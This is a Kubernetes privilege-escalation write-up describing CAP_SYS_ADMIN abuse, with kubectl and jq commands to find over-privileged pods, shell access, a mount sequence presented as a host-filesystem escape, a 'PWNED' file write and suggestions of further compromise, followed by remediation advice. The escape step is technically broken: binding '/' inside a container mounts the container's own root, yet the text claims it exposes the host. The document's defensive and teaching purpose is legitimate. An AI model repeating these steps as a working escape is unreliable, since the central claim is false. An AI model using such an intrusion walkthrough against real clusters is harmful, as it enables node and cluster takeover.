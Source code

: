 
# Kubernetes Capability Abuse for Privilege Escalation

## 1. Overview

This document outlines the vulnerability of leveraging Kubernetes capabilities granted to containers for privilege escalation. By exploiting certain capabilities, an attacker can gain root access to the container and potentially escape to the underlying node.

### Attack Vector Description

The attack vector involves identifying containers with overly permissive capabilities assigned to them. These capabilities, designed to grant specific privileges without requiring full root access, can be abused to escalate privileges to root or gain unauthorized access to the host system. Common capabilities used in this attack include `CAP_SYS_ADMIN`, `CAP_NET_RAW`, `CAP_DAC_OVERRIDE`, and `CAP_DAC_READ_SEARCH`.

### Potential Impact and Consequences

Successful exploitation can lead to:

*   **Container Compromise:** Complete control over the compromised container.
*   **Data Exfiltration:** Unauthorized access and exfiltration of sensitive data residing within the container.
*   **Lateral Movement:** Using the compromised container as a pivot point to attack other services and nodes within the cluster.
*   **Node Compromise:** Escaping the container and gaining root access to the underlying node.
*   **Cluster Takeover:** Potential for full cluster compromise if the node provides access to cluster-wide resources.

### Risk Level Assessment

**High**

The risk is high because the vulnerability allows for immediate privilege escalation and potential cluster-wide compromise. The effort required to exploit this vulnerability can be low, especially if containers are misconfigured with dangerous capabilities.

### Technical Explanation

Kubernetes allows assigning Linux capabilities to containers, providing granular control over the privileges they possess. However, misconfiguration can lead to security vulnerabilities.

*   **Capabilities as a Replacement for Root:** Capabilities were designed to replace the need for running processes as root.
*   **Overly Permissive Capabilities:** Granting capabilities like `CAP_SYS_ADMIN` effectively grants near-root privileges within the container.  `CAP_SYS_ADMIN` allows a container to perform many system administration functions, including mounting file systems.  This is often the easiest path to escape a container.
*   **Container Escape:**  Once `CAP_SYS_ADMIN` or a similar powerful capability is obtained, an attacker can leverage it to escape the container by mounting the host's root filesystem and modifying files.

### Prerequisites and Conditions Needed

*   Access to a Kubernetes cluster (e.g., via `kubectl`).
*   A running container with at least one exploitable capability assigned to it (e.g., `CAP_SYS_ADMIN`, `CAP_NET_RAW`, `CAP_DAC_OVERRIDE`).
*   Basic understanding of Linux capabilities and containerization concepts.
*   `kubectl` configured and authenticated to the cluster.

## 2. Validation and Exploitation Steps

The following steps outline how to validate and exploit a container with the `CAP_SYS_ADMIN` capability to achieve container escape and gain root access to the underlying node.

**Step 1: Identify Pods with Excessive Capabilities**

This step identifies pods that are running with elevated privileges, specifically looking for `CAP_SYS_ADMIN`.

```bash
kubectl get pods --all-namespaces -o json | jq '.items[] | select(.spec.containers[].securityContext.capabilities.add[] == "SYS_ADMIN") | .metadata.name + " (" + .metadata.namespace + ")" '
```

**Explanation:**

*   `kubectl get pods --all-namespaces -o json`: Retrieves all pods in all namespaces in JSON format.
*   `jq '.items[] | ...'`: Iterates through each item in the `items` array (each pod).
*   `select(.spec.containers[].securityContext.capabilities.add[] == "SYS_ADMIN")`: Filters for pods that have the `CAP_SYS_ADMIN` capability in at least one of their containers.
*   `.metadata.name + " (" + .metadata.namespace + ")"`: Extracts the pod name and namespace and combines them into a string for easy identification.

**Expected Output:**

A list of pod names and their namespaces that have the `CAP_SYS_ADMIN` capability. For example:

```
"vulnerable-pod (default)"
```

**Validation:**

This output confirms that a pod named `vulnerable-pod` in the `default` namespace has the `CAP_SYS_ADMIN` capability.

**Step 2: Get Shell Access to the Vulnerable Pod**

Now that we've identified a vulnerable pod, let's get a shell inside the container to perform further investigation.

```bash
kubectl exec -it vulnerable-pod -n default -- bash
```

**Explanation:**

*   `kubectl exec -it vulnerable-pod`:  Executes a command inside the `vulnerable-pod` container.
*   `-n default`: Specifies the namespace the pod is in.
*   `-- bash`: Executes the `bash` shell inside the container.  If `bash` isn't available, try `sh`.

**Expected Output:**

A shell prompt inside the container.

**Validation:**

Successfully entering the container confirms you have access to it.

**Step 3: Attempt Container Escape (Mount Host Filesystem)**

Within the container, we will attempt to mount the host's root filesystem.

```bash
mkdir /hostfs
mount --make-shared /
mount -t proc proc /hostfs/proc
mount -t sysfs sys /hostfs/sys
mount --bind / /hostfs
mount --make-rslave /hostfs
```

**Explanation:**

*   `mkdir /hostfs`: Creates a directory called `hostfs` inside the container. This will be the mount point for the host's filesystem.
*   `mount --make-shared /`:  Makes the root filesystem of the container shared.  This is necessary for propagation of mount events to the host.
*   `mount -t proc proc /hostfs/proc`: Mounts the host's `/proc` filesystem inside the container under `/hostfs/proc`.
*   `mount -t sysfs sys /hostfs/sys`: Mounts the host's `/sys` filesystem inside the container under `/hostfs/sys`.
*   `mount --bind / /hostfs`:  Mounts the host's root filesystem at /hostfs within the container. This is the core step in the container escape.
*   `mount --make-rslave /hostfs`: Configures the mount as a 'rslave' to isolate mount propagation.  This avoids potential loop issues and cleans up the mount.

**Expected Output:**

If the commands succeed, there will be no error messages.  You can then list the contents of `/hostfs` to verify that it contains the files and directories from the host's root filesystem.

**Validation:**

Execute the following command to verify the escape:

```bash
ls /hostfs
```

If you see the root directory contents (e.g., `boot`, `etc`, `var`, `usr`), the escape was successful.

**Step 4: Modify a File on the Host (Verification)**

To confirm you have write access to the host's filesystem, modify a file.  A less disruptive option is to create a file in `/tmp`

```bash
echo "PWNED" > /hostfs/tmp/pwned.txt
```

**Explanation:**

*   `echo "PWNED" > /hostfs/tmp/pwned.txt`: Writes the string "PWNED" to a file named `pwned.txt` in the `/tmp` directory on the host filesystem (accessed through `/hostfs/tmp`).

**Expected Output:**

No output if successful.

**Validation:**

Exit the container shell and check the host filesystem for the created file.  Since you likely do not have shell access to the node, you will need to find another way to confirm (e.g., inspecting the file from another container mounted on the host, or accessing it through a persistent volume).

**Step 5:  Potential Further Exploitation (If applicable)**

From this point, further exploitation is possible, including:

*   Adding a new user to the host with root privileges.
*   Installing malware on the host.
*   Accessing sensitive data stored on the host.

## Remediation Recommendations

*   **Principle of Least Privilege:**  Grant only the necessary capabilities to containers. Avoid using `CAP_SYS_ADMIN` unless absolutely essential.
*   **Pod Security Policies (PSP) / Pod Security Admission (PSA):** Use PSP or PSA to restrict the capabilities that can be requested by pods.  Define policies that prevent pods from requesting dangerous capabilities like `CAP_SYS_ADMIN`.
*   **Runtime Security:**  Implement runtime security tools (e.g., Falco, Aqua Security) to detect and prevent suspicious activity within containers, including attempts to exploit capabilities.
*   **Regular Audits:** Regularly audit the capabilities assigned to containers to ensure they are still necessary and appropriate.
*   **Image Scanning:** Scan container images for known vulnerabilities and misconfigurations before deploying them to the cluster.
*   **Immutable Infrastructure:** Deploy containers from immutable images to prevent malicious modifications to the container filesystem.
